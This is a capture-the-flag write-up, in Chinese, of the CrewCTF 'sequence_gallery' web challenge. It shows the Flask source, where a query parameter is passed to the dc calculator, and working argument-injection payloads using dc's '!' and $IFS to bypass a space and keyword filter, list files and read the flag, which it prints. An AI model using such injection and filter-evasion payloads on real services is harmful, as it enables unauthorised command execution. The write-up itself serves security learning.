 ```yaml
---
title: CrewCTF - sequence_gallery
tags: [CTF, CrewCTF, Web]

---
```


# CrewCTF - sequence_gallery
## Background
[Command Injection](https://lab.feifei.tw/practice/ci/l1.php)
[dc command in Linux with examples](https://www.geeksforgeeks.org/dc-command-in-linux-with-examples/)
[Linux dc命令](https://deepinout.com/linux-cmd/linux-numerical-computation-cmd/linux-cmd-dc.html)
> dc -h
Usage: dc [OPTION] [file ...]
  -e, --expression=EXPR    evaluate expression
  -f, --file=FILE          evaluate contents of file
  -h, --help               display this help and exit
  -V, --version            output version information and exit
>
>Email bug reports to:  bug-dc@gnu.org .

## Source Code
:::spoiler Source Code
```python!
import os
import sqlite3
import subprocess

from flask import Flask, request, render_template

app = Flask(__name__)

@app.get('/')
def index():
	sequence = request.args.get('sequence', None)
	if sequence is None:
		return render_template('index.html')

	script_file = os.path.basename(sequence + '.dc')
	if ' ' in script_file or 'flag' in script_file:
		return ':('

	proc = subprocess.run(
		['dc', script_file], 
		capture_output=True,
		text=True,
		timeout=1,
	)
	output = proc.stdout

	return render_template('index.html', output=output)

if __name__ == '__main__':
	app.run(host='0.0.0.0', port=8080)

```
:::

## Recon
這一題看了一下source code，發現他只是用了sequence參數抓取`.dc`檔案，然後用subprocess另外執行，所以dc到底是一個甚麼樣的指令?看了其他網站[^dc_linux_command_eg][^linux_dc_command_zh]，發現它就只是一個calculator，然後他支援自己寫的腳本，所以他就是抓sequence這個get參數，然後做簡單的輸入字串驗證(不能有`flag`和空格)，所以可以想一下能不能用command injection的手法達到RCE，具體來說還是看了CTFTime上的WP[^CTFTime_WP]才知道可以用`!`接shell command，實際測試如下:
```bash!
$ dc -e \!ls
factorial.dc  fibonacchi.dc  flag.txt  main.py  power.dc  templates
```
```python!
$ python
>>> import subprocess
>>> subprocess.run(['dc', "-e !ls Web/sequence_gallery/dist/src"])
factorial.dc  fibonacchi.dc  flag.txt  main.py  power.dc  templates
CompletedProcess(args=['dc', '-e !ls Web/sequence_gallery/dist/src'], returncode=0)
```
兩者的區別是一般的shell需要特別用反斜線在驚嘆號前而在python的interactive mode不需要，所以我們就以python的環境來生成payload
:::warning
用一般的command injection做不出來，我試過`和$但都沒用，因為它是用subprocess去接所以格式不同，不然一般的shell是可以處理這些東西
:::
```python!
>>> subprocess.run(['dc', "`id`"])
dc: Could not open file `id`
CompletedProcess(args=['dc', '`id`'], returncode=0)
>>> subprocess.run(['dc', '"$(id)"'])
dc: Could not open file "$(id)"
CompletedProcess(args=['dc', '"$(id)"'], returncode=0)
```
## Exploit - Command Injection
1. 先測試一般的id能不能顯示
Payload: `-e !id` $\to$ Wrong(不能有空格)
Payloda: `-e%60!id` $\to$ Did not show(這邊試了很久，發現是我們的指令沒有一個換行)
Payload: `-e%60!id%0a` $\to$ Correct(所以其實中間的dummy string可以隨便設定以取代空格但一定要有換行)
2. 所以就可以用其他payload讀flag
    ```bash!
    /?sequence=-e`!ls%0A
    factorial.dc
    fibonacchi.dc
    flag.txt
    main.py
    power.dc
    templates
    '`' (0140) unimplemented 
    /?sequence=-e`!cat$IFS*.txt%0A
    crew{10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx}
    '`' (0140) unimplemented 
    ```
    :::info
    最後一個payload必須要是使用$IFS搭配*.txt，不能$IFSf*.txt，這樣會失敗，我想可能是因為字串之間會有衝突吧
    :::
    Flag: `crew{10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx}`

3. Trick
用`dc` command執行`10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx`會顯示`DouULikeDC`的字樣，算是作者的小趣味
## Reference
[^CTFTime_WP]:[CTFTime WP](https://ctftime.org/writeup/37413)
[^dc_linux_command_eg]:[dc command in Linux with examples](https://www.geeksforgeeks.org/dc-command-in-linux-with-examples/)
[^linux_dc_command_zh]:[Linux dc命令](https://deepinout.com/linux-cmd/linux-numerical-computation-cmd/linux-cmd-dc.html)
